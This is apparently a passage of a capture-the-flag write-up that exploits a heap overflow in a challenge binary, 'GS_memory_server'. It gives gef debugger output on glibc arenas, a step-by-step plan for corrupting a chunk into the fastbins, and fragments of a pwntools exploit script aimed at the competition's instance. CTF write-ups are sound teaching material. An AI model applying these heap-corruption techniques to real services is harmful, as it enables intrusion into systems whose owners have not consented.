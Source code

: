 ```py
def main():
    exp = Exploit()
    exp.exploit()

if __name__ == "__main__":
    main()
```

```
gef➤  print RAM_INIT_CHUNK.next
$1 = (struct RAM *) 0x7ffff0000b60
gef➤  print RAM_INIT_CHUNK.next.chunk.next
$2 = (struct RAM *) 0x7fffe8000b60
gef➤  print RAM_INIT_CHUNK.next.chunk.next.chunk.next
$3 = (struct RAM *) 0x7fffec000b60
gef➤  heap arenas
Arena(base=0x7ffff7ca9b80, top=0x55555556ba70, last_remainder=0x0, next=0x7fffec000020, next_free=0x0, system_mem=0x21000)
Arena(base=0x7fffec000020, top=0x7fffec000b80, last_remainder=0x0, next=0x7fffe8000020, next_free=0x0, system_mem=0x21000)
Arena(base=0x7fffe8000020, top=0x7fffe8000b80, last_remainder=0x0, next=0x7ffff0000020, next_free=0x0, system_mem=0x21000)
Arena(base=0x7ffff0000020, top=0x7ffff0000b80, last_remainder=0x0, next=0x7ffff7ca9b80, next_free=0x0, system_mem=0x21000)
```

As you can observe, there is one arena created per thread, and an additional one for the main context. Following some investigation, I discovered the following information: **libc allocates a maximum of 8 times the number of cores' arenas, and beyond this limit, it switches to the existing arenas**. As I have 16 cores, 16*8 = 128 clients should be enough to cycle. We can verify this information with the following pipeline:

- Allocate a client.
- Modify its chunk size to match the size of the `RAM` structure, which is 0x20, or 0x30 including the 0x10 bytes related to the `malloc_chunk` struct.
- Free the client to move the modified block into the fastbins.
- Allocate 126 clients and force them to create an arena by allocating one `RAM` struct per client.
- Allocate another client.
- Utilize it to perform an overflow until reaching the address of the chunk placed in the fastbins and allocate a `RAMContent` chunk.
- Allocate a client and one `RAM` struct from this client.
- Read from the `RAMContent` chunk. If the bytes are zero, it indicates the approach did not work; otherwise, it signifies success.

Let's proceed with this test!

```py
from pwn import *

exe = ELF("GS_memory_server_patched")
libc = ELF("libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe

def conn():
    if args.LOCAL:
        r = remote("127.0.0.1", 1337)
    else:
        r = remote("instances.challenge-ecw.fr", 41621)

    return r

def send_int(r, i):
    r.send(int.to_bytes(i, 4, "little"))

```